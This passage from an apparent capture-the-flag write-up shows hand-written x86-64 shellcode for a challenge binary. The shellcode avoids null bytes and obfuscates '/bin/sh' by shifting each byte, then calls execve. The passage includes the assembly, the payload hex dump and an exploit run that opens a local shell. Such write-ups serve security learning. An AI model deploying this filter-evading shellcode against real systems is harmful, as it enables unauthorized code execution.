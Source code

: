 We are a step closer, but, the issue with the previous shellcode is that we forgot that the memory segment is `r-x`. Which means that we cannot directly modify the `binsh` text. Also the shellcode contains some *Null bytes* which are also caught by the check.

## Solution 

To fix our non writable memory problem, we simply hardcode the obfuscated string into a register, push it to the stack (`rw-`), and modify it there. As for the 2nd issue, by replacing the `LEA` instruction we already got rid of some null bytes, we additionally modify the end of the shellcode (see comments) and we are all set.


```asm
xor     rdx, rdx
mov     rbx, 0x16974306f6a6330  # hex(u64(b'0cjo0ti\1')) -- i.e. /bin/shNULL + 1 on every byte 
push    rbx
mov     rbx, rsp
sub     byte ptr [rbx+0], 0x1
sub     byte ptr [rbx+1], 0x1
sub     byte ptr [rbx+2], 0x1
sub     byte ptr [rbx+3], 0x1
sub     byte ptr [rbx+4], 0x1
sub     byte ptr [rbx+5], 0x1
sub     byte ptr [rbx+6], 0x1
sub     byte ptr [rbx+7], 0x1
mov     rdi, rbx
push    rdx
push    rbx
mov     rsi, rsp
xor     eax, eax                # Removed null byte
mov     al, 0x3b                # Removed null byte
syscall
hang:
    jmp hang
```

The new payload without null bytes:
```
Sent 0x1000 bytes:
    00000000  48 31 d2 48  bb 30 63 6a  6f 30 74 69  01 53 48 89  │H1·H│·0cj│o0ti│·SH·│
    00000010  e3 80 2b 01  80 6b 01 01  80 6b 02 01  80 6b 03 01  │··+·│·k··│·k··│·k··│
    00000020  80 6b 04 01  80 6b 05 01  80 6b 06 01  80 6b 07 01  │·k··│·k··│·k··│·k··│
    00000030  48 89 df 52  53 48 89 e6  31 c0 b0 3b  0f 05 eb fe  │H··R│SH··│1··;│····│
    00000040  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
```

Success! We got the flag! Well kinda... server was closed and I forgot to save it...
```bash
$ python3 exploit.py
[*] './spd_a'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './spd_a': pid 293718
[*] Switching to interactive mode
$ cat flag
TODO:
```

